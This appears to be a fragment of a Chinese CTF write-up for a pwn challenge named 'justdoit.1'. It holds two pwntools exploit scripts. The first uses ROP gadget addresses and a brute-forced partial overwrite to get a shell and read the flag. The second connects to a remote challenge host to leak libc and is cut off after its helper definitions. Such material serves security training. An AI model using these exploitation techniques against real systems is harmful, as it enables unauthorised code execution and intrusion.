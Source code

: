 ```python
pop_rdi=0x00000000004012b3
pop_rbp=0x000000000040114d
lea_ret=0x00000000004011d3


payload=p64(0x4011A9)+p64(0x4011FF)
#payload=p64(read_lpng)+p64(read)

def pwn():
    sn(payload)
    ru('where are you from? my frends??')
    sn(str(-0x28))
    sn(str(0x000000000404020))
    
    sn('\x26\x82\x3b')
    sleep(0.1)
    sl('ls')
    sl('ls')
    ru('flag')
    sl('cat flag')
    irt()



while True:
    try:
        #io=remote('47.106.172.144',65004)
        io=process('./justdoit.1')
        pwn()
 
    except:
        io.close()
        continue
```
## exp2 泄露libc，rop
```python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ["/usr/bin/tmux","sp","-h"]

io = remote('47.106.172.144', 65004)
# libc = ELF('./libc-2.31.so')
# io = process(['./test', 'real'])
# io = process('./justdoit.1')
libc=ELF('./libc.so.6')
elf=ELF('./justdoit.1')

l64 = lambda      :u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(io.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, b'\x00'))
uu64 = lambda data		: u64(data.ljust(8, b'\x00'))
```